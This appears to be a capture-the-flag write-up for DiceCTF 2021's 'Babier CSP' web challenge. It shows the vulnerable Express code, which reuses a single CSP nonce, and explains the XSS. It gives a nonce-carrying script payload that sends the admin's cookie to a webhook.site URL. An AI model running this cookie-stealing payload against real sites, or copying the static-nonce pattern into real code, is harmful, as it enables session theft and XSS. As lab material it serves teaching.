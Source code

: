# Babier CSP

- CTF: DiceCTF 2021
- Category: Web


## Instructions

[Baby CSP](https://2020.justctf.team/challenges/14) was too hard for us, try Babier CSP.

[babier-csp.dicec.tf](babier-csp.dicec.tf)

[Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp)

The admin will set a cookie `secret` equal to `config.secret` in index.js.

```js
const express = require('express');
const crypto = require("crypto");
const config = require("./config.js");
const app = express()
const port = process.env.port || 3000;

const SECRET = config.secret;
const NONCE = crypto.randomBytes(16).toString('base64');

const template = name => `
<html>

${name === '' ? '': `<h1>${name}</h1>`}
<a href='#' id=elem>View Fruit</a>

<script nonce=${NONCE}>
elem.onclick = () => {
  location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>

</html>
`;

app.get('/', (req, res) => {
  res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
  res.send(template(req.query.name || ""));
})

app.use('/' + SECRET, express.static(__dirname + "/secret"));

app.listen(port, () => {
  console.log(`Example app listening at http://localhost:${port}`)
});
```

## Analysis

The name query param seems allows XSS

![Name query param XSS](name-query-xss.png)

Key element is `<script nonce=${NONCE}>`. This ensures no script tags can not introduced by some malicious third party. However, as this is hard coded, it allows us to inject malicious script tag as long as we use the same `nonce` value.

We can now submit the following script to the Admin bot:

```html
<script nonce="LRGWAXOY98Es0zz0QOVmag==">document.location="https://webhook.site/768da366-9c5e-4d86-9140-8afb55ccbd1b?c="+document.cookie;</script>
```

The callback should have a `c` query param with the cookie `secret` set by the admin.

![Admin callback](admin-callback.png)

We can now visit the `/4b36b1b8e47f761263796b1defd80745` page

![Secret page](secret-page.png)

And view it source reveals the flag

![Flag](flag.png)
